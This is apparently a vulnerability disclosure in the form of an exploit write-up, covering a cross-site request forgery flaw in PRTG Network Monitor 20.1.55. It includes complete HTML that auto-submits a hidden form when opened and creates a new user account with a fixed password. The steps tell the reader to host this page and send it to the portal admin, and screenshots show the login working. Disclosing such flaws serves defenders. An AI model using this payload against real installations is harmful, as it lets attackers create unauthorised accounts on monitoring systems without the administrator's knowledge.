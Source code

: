 # PRTG Network Monitoor v20.1.55 - CSRF
Cross Site Request Forgery (CSRF) on PRTG Network Monitor version 20.1.55

Exploit Title: Cross Site Request Forgery (CSRF)  
Date: 10/06/2021  
Exploit Author: Likhith CV  
Vendor Homepage: https://www.paessler.com/  
Software Link: https://www.paessler.com/prtg  
Test on Version: 20.1.55.1775+  
Affected Versions: not tested on other versions  


## Observation
It was observed that anti csrf tokens are not implemented throughout PRTG Network Monitor v 20.1.55 Application

Severity: High

## Steps To reproduce:

To exploit this vulnerability an attacker can simply create a HTML form that would submit a user account creation request and share the link with the victim.On clicking the link , the user account creation request will be triggered in background and it shall create a user account from his valid session.

Any action can be performed on behalf of logged in user but for demonstration user account creation on behalf of admin is shown as example


1. Create a CSRF payload as following
```javascript
<html>
  <body onload="onLoadSubmit()">
  <script>history.pushState('', '', '/')</script>
    <form action="https://[domain]/editsettings" name="cu2" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="login&#95;" value="User&#95;test2" />			<!--username-->
      <input type="hidden" name="name&#95;" value="User&#95;test2" />			<!--name-->
      <input type="hidden" name="email&#95;" value="cvlikhith&#64;gmail&#46;com" />		<!--email-->
      <input type="hidden" name="email" value="" />
      <input type="hidden" name="passwordradio" value="1" />
      <input type="hidden" name="password1" value="Hello123" />				<!--password-->
      <input type="hidden" name="password&#95;" value="" />					<!--confirm_password-->
      <input type="hidden" name="password2" value="Hello123" />
      <input type="hidden" name="passhash" value="" />
      <input type="hidden" name="lastackedsensordeprecationgrowl" value="" />
      <input type="hidden" name="usertype&#95;" value="0" />
      <input type="hidden" name="allowack&#95;" value="0" />
      <input type="hidden" name="allowpwchange&#95;" value="0" />
      <input type="hidden" name="primarygroup&#95;" value="201&#124;PRTG&#32;Users&#32;Group&#124;&#124;&#124;0&#124;" />	<!--group-->
      <input type="hidden" name="primarygroup" value="201" />
      <input type="hidden" name="active&#95;" value="1" />
      <input type="hidden" name="autorefreshtype&#95;" value="1" />
      <input type="hidden" name="autorefreshinterval&#95;" value="30" />
      <input type="hidden" name="playsound&#95;" value="0" />
      <input type="hidden" name="homepage&#95;" value="" />
      <input type="hidden" name="timezone&#95;" value="Dateline&#32;Standard&#32;Time&#124;&#40;UTC&#45;12&#58;00&#41;&#32;International&#32;Date&#32;Line&#32;West" />
      <input type="hidden" name="dateformat&#95;" value="0" />
      <input type="hidden" name="theme&#95;" value="0" />
      <input type="hidden" name="ticketmail&#95;" value="1" />
      <input type="hidden" name="objecttype" value="user" />
      <input type="hidden" name="id" value="new" />
      <input type="hidden" name="targeturl" value="&#47;systemsetup&#46;htm&#63;tabid&#61;5" />
      <input type="submit" value="Submit request" />
    </form>
	<script language="javascript">
function onLoadSubmit() {
	document.cu2.submit();
}
</script>
  </body>
</html>

```
2. Send this payload to admin of the PRTG Portal
3. once Admin opens your payload new user account will be created   

### CSRF Payload
![payload](https://user-images.githubusercontent.com/36541248/121513665-2420c100-c9fc-11eb-819f-c83a94cba544.png)

### Hosting CSRF.html on attacker server
![python_server](https://user-images.githubusercontent.com/36541248/121513670-284cde80-c9fc-11eb-8102-315033fb317f.png)

### User accounts before CSRF attack
![0](https://user-images.githubusercontent.com/36541248/121513531-005d7b00-c9fc-11eb-8346-c04737d7869f.png)

### Once the Admin Opens map CSRF Payload is triggered and new user account "user_test2" is created
![9](https://user-images.githubusercontent.com/36541248/121513559-07848900-c9fc-11eb-8ae9-4ea660d2a35a.png)

### Testing Credentials
![testing_creds](https://user-images.githubusercontent.com/36541248/121513678-2aaf3880-c9fc-11eb-9d3b-82edacd809a7.png)

### Logged In 
![logged_in](https://user-images.githubusercontent.com/36541248/121513653-2125d080-c9fc-11eb-9285-fde0942c83e1.png)







